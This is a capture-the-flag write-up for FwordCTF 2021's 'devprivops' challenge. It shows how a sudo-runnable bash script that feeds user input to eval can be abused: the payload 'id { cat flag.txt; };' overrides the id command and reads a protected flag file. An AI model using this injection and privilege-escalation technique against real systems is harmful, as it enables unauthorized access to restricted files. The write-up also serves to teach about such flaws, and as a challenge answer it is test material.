 ## Intro
**devprivops** was a bash challenge at FwordCTF 2021.  

You were given access to a linux machine through SSH as _user1_. In the home directory of the user two files of interest can be found - a [shell script](devops.sh) and a `flag.txt`. Both files belong to root and only another user on the system called _user-privileged_ was granted read access to the flag.

```
user1@da8cb1333b60:/home/user1$ ls -la
total 32
drwxrwxr-t 1 root  user1           4096 Aug 27 22:44 ./
drwxr-xr-x 1 root  root            4096 Aug 27 22:43 ../
-rw-r--r-- 1 user1 user1            220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 user1 user1           3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 user1 user1            807 Feb 25  2020 .profile
-rwxr-xr-x 1 root  user-privileged  945 Aug 27 22:09 devops.sh*
-rwxr----- 1 root  user-privileged   67 Aug 27 22:09 flag.txt*
```

Let's escalate!

## Investigation
By inspecting the shell script we learn that we can supply two parameters `-d` and `-p`.  

The `-d` parameter block essentially lets us input the name of a function which gets defined by `eval` and exported afterwards.

```bash
if [[ deploy -eq 1 ]];then
        echo -ne "Please enter your true name if you are a shinobi\n"  
        read -r name
        eval "function $name { terraform init &>/dev/null && terraform apply &>/dev/null ; echo \"It should be deployed now\"; }"
        export -f $name
fi
```

Unfortunately, it seems we can never run it since it's impossible to get past the admin check.

```bash
isAdmin=0
# Ofc only admins can deploy stuffs o//
if [[ $isAdmin -eq 1 ]];then
        $name
fi
```

Or can we?

The evaluation of the `-p` parameter block follows directly after and prints out our current permissions by calling `id`.

```bash
if [[ $permission -eq 1 ]];then
        echo "You are: " 
        id
fi
```

## Solution
A quick `sudo -l` reveals we have the ability to execute [devops.sh](devops.sh) as the _user-privileged_.

```
user1@7c47d98c8907:/home/user1$ sudo -l
Matching Defaults entries for user1 on 7c47d98c8907:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on 7c47d98c8907:
    (user-privileged) NOPASSWD: /home/user1/devops.sh
```

So we execute the script as `sudo -u user-privileged ./devops.sh -d -p` and input the payload `id { cat flag.txt; };`, overwriting the `id` function with our malicious one. When the `-p` parameter block gets evaluated afterwards and our `id` is called, the flag gets exposed!

> FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}

